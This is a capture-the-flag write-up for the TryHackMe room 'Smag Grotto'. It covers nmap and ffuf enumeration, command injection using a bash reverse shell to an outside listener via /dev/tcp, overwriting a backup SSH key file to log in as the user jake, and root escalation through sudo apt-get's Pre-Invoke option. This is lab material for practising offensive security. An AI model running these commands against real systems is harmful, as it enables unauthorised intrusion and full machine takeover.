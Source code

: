 ## smaggrotto
https://tryhackme.com/room/smaggrotto

## Enum
```
nmap -Pn -sC -sV -sS 10.10.140.10 -vv -T4
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://smag.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
.hta                    [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 432ms]
.htpasswd               [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 3048ms]
.htaccess               [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 5185ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 301ms]
mail                    [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 325ms]
server-status           [Status: 403, Size: 273, Words: 20, Lines: 10, Duration: 310ms]
:: Progress: [4713/4713] :: Job [1/1] :: 130 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```
![image](https://user-images.githubusercontent.com/6504854/185596553-fdf7e370-a5c9-44a0-b4e8-402da6bc7ac5.png)

![image](https://user-images.githubusercontent.com/6504854/185596651-d121de38-a8f0-4745-9f36-85eed03b8793.png)

![image](https://user-images.githubusercontent.com/6504854/185596726-dea57b8c-54be-492d-bfd7-ad9e5c198f04.png)

![image](https://user-images.githubusercontent.com/6504854/185596999-8fb87c11-0a92-4234-a16f-a9f4b3160b96.png)

![image](https://user-images.githubusercontent.com/6504854/185597181-474b6e66-d724-464e-b51b-fe3b5b638503.png)

![image](https://user-images.githubusercontent.com/6504854/185597637-2d18c160-c8e1-43eb-b844-c1f0463c3e8b.png)

![image](https://user-images.githubusercontent.com/6504854/185597959-abcf5303-2341-48dc-913d-5d46e82573ec.png)

![image](https://user-images.githubusercontent.com/6504854/185600982-93191c3e-3277-43ab-a461-38f6b56779a6.png)
![image](https://user-images.githubusercontent.com/6504854/185601154-96a54090-a4f9-4db2-89fe-a46e665520b1.png)

🏴 No response but it's sure to work command injection.

```
bash -c 'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

![image](https://user-images.githubusercontent.com/6504854/185599033-c725d323-0a71-4062-a9d0-7d5f3f2c95ea.png)

🏴 It worked revers-shell.OK!

## Flag
I runned linpeas and found /opt/.backups/jake_id_rsa.pub.backup contains jake's key. 

![image](https://user-images.githubusercontent.com/6504854/185606932-45739dad-165f-4f9c-bad4-63399de08be4.png)

```
┌──(kali)-[~]
└─$ ssh-keygen -f jake_key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in jake_key
Your public key has been saved in jake_key.pub

┌──(kali)-[~]
└─$ cat jake_key.pub
ssh-rsa AAAAB3NzaC1...Yp0RSnZVB1vYlTApTKG4M=
```

```
www-data@smag:/home/jake$ echo 'ssh-rsa AAAAB3NzaC1...Yp0RSnZVB1vYlTApTKG4M=' > /opt/.backups/jake_id_rsa.pub.backup
```

```
┌──(kali)-[~]
└─$ ssh jake@10.10.140.10 -i jake_key
```

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020

jake@smag:~$ cat user.txt

jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# cat /root/root.txt
```

Thank you for your time. Happy Hacking! 😄
